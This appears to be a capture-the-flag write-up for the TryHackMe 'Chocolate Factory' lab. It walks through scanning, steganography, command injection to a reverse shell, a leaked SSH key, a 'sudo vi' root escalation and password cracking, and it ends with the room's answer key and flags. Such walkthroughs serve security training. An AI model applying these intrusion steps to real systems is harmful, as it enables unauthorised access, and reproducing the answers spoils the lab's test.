




# Write Up for Try Hack Me box - [Chocolate Factory](https://tryhackme.com/r/room/chocolatefactory)

This box is as simple as they come. Multiple ways in the system. FTP, WEB, you choose.
THe Privesc can be found in the bins.

> Pratyush Prakhar (5#1NC#4N) - 09/02/2021

## RECONNAISSANCE

1. Scan the box with rustscan.
	1. Full port scan --> [nmap file here](rustscan/all.nmap).

	**Results**

	```bash
	# Nmap 7.94SVN scan initiated Wed May 22 00:23:23 2024 as: nmap -vvv -p 22,21,102,109,110,113,80,101,100,108,105,103,107,111,112,106,104,117,120,122,116,115,118,125,114,124,119,121,123 -oN rustscan/initial.nmap 10.10.159.137
	Nmap scan report for 10.10.159.137
	Host is up, received syn-ack (0.23s latency).
	Scanned at 2024-05-22 00:23:23 EDT for 0s

	PORT    STATE SERVICE    REASON
	21/tcp  open  ftp        syn-ack
	22/tcp  open  ssh        syn-ack
	80/tcp  open  http       syn-ack
	100/tcp open  newacct    syn-ack
	101/tcp open  hostname   syn-ack
	102/tcp open  iso-tsap   syn-ack
	103/tcp open  gppitnp    syn-ack
	104/tcp open  acr-nema   syn-ack
	105/tcp open  csnet-ns   syn-ack
	106/tcp open  pop3pw     syn-ack
	107/tcp open  rtelnet    syn-ack
	108/tcp open  snagas     syn-ack
	109/tcp open  pop2       syn-ack
	110/tcp open  pop3       syn-ack
	111/tcp open  rpcbind    syn-ack
	112/tcp open  mcidas     syn-ack
	113/tcp open  ident      syn-ack
	114/tcp open  audionews  syn-ack
	115/tcp open  sftp       syn-ack
	116/tcp open  ansanotify syn-ack
	117/tcp open  uucp-path  syn-ack
	118/tcp open  sqlserv    syn-ack
	119/tcp open  nntp       syn-ack
	120/tcp open  cfdptkt    syn-ack
	121/tcp open  erpc       syn-ack
	122/tcp open  smakynet   syn-ack
	123/tcp open  ntp        syn-ack
	124/tcp open  ansatrader syn-ack
	125/tcp open  locus-map  syn-ack
	```

	2. Full Service and Scripts scan on the found ports. --> [nmap file here](rustscan/main.nmap)

	3. We notice that there are some common ports open and also some dummy ports with this crazzzzyy message. It doesn't go anywhere. So, a dead end for now. 

	```bash
	└─$ nc 10.10.119.247 100
	"Welcome to chocolate room!! 
		___  ___  ___  ___  ___.---------------.
	.'\__\'\__\'\__\'\__\'\__,`   .  ____ ___ \
	\|\/ __\/ __\/ __\/ __\/ _:\  |:.  \  \___ \
	\\'\__\'\__\'\__\'\__\'\_`.__|  `. \  \___ \
		\\/ __\/ __\/ __\/ __\/ __:                \
		\\'\__\'\__\'\__\ \__\'\_;-----------------`
		\\/   \/   \/   \/   \/ :                 |
		\|______________________;________________|

	A small hint from Mr.Wonka : Look somewhere else, its not here! ;) 
	I hope you wont drown Augustus" ls
	```

2. There are **3 legit TCP** ports open. 
	1. *Port 21* - FTP - **vsftpd 3.0.3** 
	2. *Port 22* - SSH - **OpenSSH 7.6p1** 
	3. *Port 80* - WEB - **Apache httpd 2.4.29**

3. Let's explore FTP part first as anon login is permitted. --> WEB --> SSH.

## FTP

1. Anonymous login allow us to obtain an image file - 

2. But it won't be this simple. Let's get our cartographer, I mean cryptographer tools out.

```bash
└─$ exiftool gum_room.jpg
ExifTool Version Number         : 12.76
File Name                       : gum_room.jpg
Directory                       : .
File Size                       : 209 kB
File Modification Date/Time     : 2020:09:30 10:31:12-04:00
File Access Date/Time           : 2024:05:22 01:10:18-04:00
File Inode Change Date/Time     : 2024:05:22 01:09:55-04:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
Exif Byte Order                 : Big-endian (Motorola, MM)
Image Width                     : 1920
Image Height                    : 1080
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 1920x1080
Megapixels                      : 2.1

┌──(kali㉿kali)-[~/…/Boxes/Try Hack Me/Chocolate Factory/ftp]
└─$ steghide info gum_room.jpg 
"gum_room.jpg":
  format: jpeg
  capacity: 10.9 KB
Try to get information about embedded data ? (y/n) n

┌──(kali㉿kali)-[~/…/Boxes/Try Hack Me/Chocolate Factory/ftp]
└─$ stegseek gum_room.jpg /usr/share/wordlists/rockyou.txt
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: ""
[i] Original filename: "b64.txt".
[i] Extracting to "gum_room.jpg.out".
the file "gum_room.jpg.out" does already exist. overwrite ? (y/n) y
```

3. And wallah, what do we find - a [encoded file](ftp/gum_room.jpg.out) hidden in the image. Let's reverse engineer it to get a possible [linux shadow file](ftp/poss_shadow_file.txt).

4. We can now and go beat our CPUs and GPUs at it to get the password for **Mr. Charlie**. But will hold my horses on it as we have the WEB to exploit too. My fav!!

## WEB

1. Let's first check out the web server on port 80. 
	1. We get a default page with no links going out. - Default HTML page.
	\
	
	\
	2. We will go for the low hanging fruit - robots, page source and try to get some information. Found on the page source that there is a `php engine` in the backend.
	\
	
	\

2. Let's throw some directory bruteforcing at it. We get some interesting results as [file here](web/ferox.txt). We find an interesting page on the server - `home.php`. Let's explore it.

3. we find a that we can run terminal commands on this page. And this is our way in. But first let's see some server pages and their backend code.
\

\

\

4. Following is leaked from the web directory.
	1. **home.php/index.php.bak** - We see that the [page source](web/index.php.bak) reveals that the command inputted is directly being executed on shell. And this is our way in as `www-data`.
	2. We also get the [stupid program](web/key_rev_key) running on all the dummy ports. Don't get  stuck here. But you do get the right name to give if you know stings. It will reward you with a key.
	
	```bash
	└─$ ./key_rev_key 
	Enter your name: charlie
	Bad name!
	┌──(kali㉿kali)-[~/…/Boxes/Try Hack Me/Chocolate Factory/web]
	└─$ strings key_rev_key                                   
	/lib64/ld-linux-x86-64.so.2
	libc.so.6
	__isoc99_scanf
	puts
	__stack_chk_fail
	printf
	__cxa_finalize
	strcmp
	__libc_start_main
	GLIBC_2.7
	GLIBC_2.4
	GLIBC_2.2.5
	_ITM_deregisterTMCloneTable
	__gmon_start__
	_ITM_registerTMCloneTable
	5j       
	%l       
	%j       
	%b       
	%Z       
	%R       
	%J       
	%b       
	=9       
	AWAVI
	AUATL
	[]A\A]A^A_
	Enter your name: 
	laksdhfas
	congratulations you have found the key:   
	b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='
	Keep its safe
	Bad name!
	;*3$"
	GCC: (Ubuntu 7.5.0-3ubuntu1~18.04) 7.5.0
	crtstuff.c
	deregister_tm_clones
	__do_global_dtors_aux
	completed.7698
	__do_global_dtors_aux_fini_array_entry
	frame_dummy
	__frame_dummy_init_array_entry
	license.c
	__FRAME_END__
	__init_array_end
	_DYNAMIC
	__init_array_start
	__GNU_EH_FRAME_HDR
	_GLOBAL_OFFSET_TABLE_
	__libc_csu_fini
	_ITM_deregisterTMCloneTable
	puts@@GLIBC_2.2.5
	_edata
	__stack_chk_fail@@GLIBC_2.4
	printf@@GLIBC_2.2.5
	__libc_start_main@@GLIBC_2.2.5
	__data_start
	strcmp@@GLIBC_2.2.5
	__gmon_start__
	__dso_handle
	_IO_stdin_used
	__libc_csu_init
	__bss_start
	main
	__isoc99_scanf@@GLIBC_2.7
	__TMC_END__
	_ITM_registerTMCloneTable
	__cxa_finalize@@GLIBC_2.2.5
	.symtab
	.strtab
	.shstrtab
	.interp
	.note.ABI-tag
	.note.gnu.build-id
	.gnu.hash
	.dynsym
	.dynstr
	.gnu.version
	.gnu.version_r
	.rela.dyn
	.rela.plt
	.init
	.plt.got
	.text
	.fini
	.rodata
	.eh_frame_hdr
	.eh_frame
	.init_array
	.fini_array
	.dynamic
	.data
	.bss
	.comment
	```

	3. Also, threw SQL injection at the login page obtained earlier. Results are [here](web/val.req).

5. Let's get a reverse shell acting on the one path that is surest - *the cmd injection*.

## INITIAL ACCESS - REV SHELL

1. We get into the system as `www-data`. We can now explore the web directory. WEe wanted to check out the remaining `index.html` file for the credentials maybe. And we got it. But it is useless. Find out for you.

```bash
www-data@chocolate-factory:/var/www/html$ cat validate.php
cat validate.php
<?php
        $uname=$_POST['uname'];
        $password=$_POST['password'];
        if($uname=="charlie" && $password=="cn7824"){
                echo "<script>window.location='home.php'</script>";
        }
        else{
                echo "<script>alert('Incorrect Credentials');</script>";
                echo "<script>window.location='index.html'</script>";
        }
```

2. Now let's try to get a way to get to charlie. Looking into the `/home directory` would be great place to start.

```bash
www-data@chocolate-factory:/var/www/html$ cd /home
cd /home
www-data@chocolate-factory:/home$ ls -la
ls -la
total 12
drwxr-xr-x  3 root    root    4096 Oct  1  2020 .
drwxr-xr-x 24 root    root    4096 Sep  1  2020 ..
drwxr-xr-x  5 charlie charley 4096 Oct  7  2020 charlie
www-data@chocolate-factory:/home$ cd charlie
cd charlie
www-data@chocolate-factory:/home/charlie$ ls -la
ls -la
total 40
drwxr-xr-x 5 charlie charley 4096 Oct  7  2020 .
drwxr-xr-x 3 root    root    4096 Oct  1  2020 ..
-rw-r--r-- 1 charlie charley 3771 Apr  4  2018 .bashrc
drwx------ 2 charlie charley 4096 Sep  1  2020 .cache
drwx------ 3 charlie charley 4096 Sep  1  2020 .gnupg
drwxrwxr-x 3 charlie charley 4096 Sep 29  2020 .local
-rw-r--r-- 1 charlie charley  807 Apr  4  2018 .profile
-rw-r--r-- 1 charlie charley 1675 Oct  6  2020 teleport
-rw-r--r-- 1 charlie charley  407 Oct  6  2020 teleport.pub
-rw-r----- 1 charlie charley   39 Oct  6  2020 user.txt
```

3. We find that
	1. Can't read the user flag as www-data. Pffttttt.
	2. We have user weak in the security. FOund these [keys](ssh/charlie) to heaven lying around. And to our surprise, they belong to user charlie. Let's use it to get on the system as legit charlie.
	3. We can read the flag now.
	```bash
	charlie@chocolate-factory:/home/charlie$ ls -la
	total 40
	drwxr-xr-x 5 charlie charley 4096 Oct  7  2020 .
	drwxr-xr-x 3 root    root    4096 Oct  1  2020 ..
	-rw-r--r-- 1 charlie charley 3771 Apr  4  2018 .bashrc
	drwx------ 2 charlie charley 4096 Sep  1  2020 .cache
	drwx------ 3 charlie charley 4096 Sep  1  2020 .gnupg
	drwxrwxr-x 3 charlie charley 4096 Sep 29  2020 .local
	-rw-r--r-- 1 charlie charley  807 Apr  4  2018 .profile
	-rw-r--r-- 1 charlie charley 1675 Oct  6  2020 teleport
	-rw-r--r-- 1 charlie charley  407 Oct  6  2020 teleport.pub
	-rw-r----- 1 charlie charley   39 Oct  6  2020 user.txt
	charlie@chocolate-factory:/home/charlie$ cat user.txt 
	flag{cd5509042371b34e4826e4838b522d2e}
	```

## PRIVESC

1. Simple sudo priv esc it is. [GTFObins](https://gtfobins.github.io/gtfobins/vi/#sudo) for the win again.

```bash
charlie@chocolate-factory:/home/charlie$ sudo -l
Matching Defaults entries for charlie on chocolate-factory:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User charlie may run the following commands on chocolate-factory:
    (ALL : !root) NOPASSWD: /usr/bin/vi

charlie@chocolate-factory:/home/charlie$ sudo vi -c ':!/bin/bash' /dev/null

root@chocolate-factory:/home/charlie# id
uid=0(root) gid=0(root) groups=0(root)
root@chocolate-factory:/home/charlie# cd /root/
root@chocolate-factory:/root# ls
root.py
root@chocolate-factory:/root# cat root.py 
from cryptography.fernet import Fernet
import pyfiglet
key=input("Enter the key:  ")
f=Fernet(key)
encrypted_mess= 'gAAAAABfdb52eejIlEaE9ttPY8ckMMfHTIw5lamAWMy8yEdGPhnm9_H_yQikhR-bPy09-NVQn8lF_PDXyTo-T7CpmrFfoVRWzlm0OffAsUM7KIO_xbIQkQojwf_unpPAAKyJQDHNvQaJ'
dcrypt_mess=f.decrypt(encrypted_mess)
mess=dcrypt_mess.decode()
display1=pyfiglet.figlet_format("You Are Now The Owner Of ")
display2=pyfiglet.figlet_format("Chocolate Factory ")
print(display1)
print(display2)
print(mess)root@chocolate-factory:/root# python root.py 
Enter the key:  b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='
__   __               _               _   _                 _____ _          
\ \ / /__  _   _     / \   _ __ ___  | \ | | _____      __ |_   _| |__   ___ 
 \ V / _ \| | | |   / _ \ | '__/ _ \ |  \| |/ _ \ \ /\ / /   | | | '_ \ / _ \
  | | (_) | |_| |  / ___ \| | |  __/ | |\  | (_) \ V  V /    | | | | | |  __/
  |_|\___/ \__,_| /_/   \_\_|  \___| |_| \_|\___/ \_/\_/     |_| |_| |_|\___|
                                                                             
  ___                              ___   __  
 / _ \__      ___ __   ___ _ __   / _ \ / _| 
| | | \ \ /\ / / '_ \ / _ \ '__| | | | | |_  
| |_| |\ V  V /| | | |  __/ |    | |_| |  _| 
 \___/  \_/\_/ |_| |_|\___|_|     \___/|_|   
                                             

  ____ _                     _       _       
 / ___| |__   ___   ___ ___ | | __ _| |_ ___ 
| |   | '_ \ / _ \ / __/ _ \| |/ _` | __/ _ \
| |___| | | | (_) | (_| (_) | | (_| | ||  __/
 \____|_| |_|\___/ \___\___/|_|\__,_|\__\___|
                                             
 _____          _                    
|  ___|_ _  ___| |_ ___  _ __ _   _  
| |_ / _` |/ __| __/ _ \| '__| | | | 
|  _| (_| | (__| || (_) | |  | |_| | 
|_|  \__,_|\___|\__\___/|_|   \__, | 
                              |___/  

flag{cec59161d338fef787fcb4e296b42124}
```

2. We get to to the root directory and find that the there is a file `root.py`. We run it and it asks for a key. We know the key. YEs, we do. And that gives us the flag for root.

## EXTRA TREAT 

1. Find out more with the linpeas scans that can be obtained [here](ssh/tmp/linpeas.out).

2. You remember the file that we obtained from the FTP. It gave us a shadow file back then. Let's have a go at it. We find that it is indeed the same password as we found for the `validate.php` file.
```bash
└─$ cat test.txt   
cn7824
                                                                                                        
┌──(kali㉿kali)-[~/…/Try Hack Me/Chocolate Factory/ssh/opt]
└─$ john hash --wordlist=test.txt                        
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 1 candidate left, minimum 8 needed for performance.
cn7824           (charlie)     
1g 0:00:00:00 DONE (2024-05-22 18:40) 100.0g/s 100.0p/s 100.0c/s 100.0C/s cn7824
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
3. See you in the next one.

## BROWNIE POINTS

1. Enter the key you found! - **b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='**

2. What is Charlie's password? - **cn7824**

3. Enter the user flag - **flag{cd5509042371b34e4826e4838b522d2e}**

4. Enter the root flag - **flag{cec59161d338fef787fcb4e296b42124}**

**Stay Tuned On**\
[GitHub](https://github.com/pratty010/Boxes)\
[LinkedIn](https://www.linkedin.com/in/pratyush-prakhar/)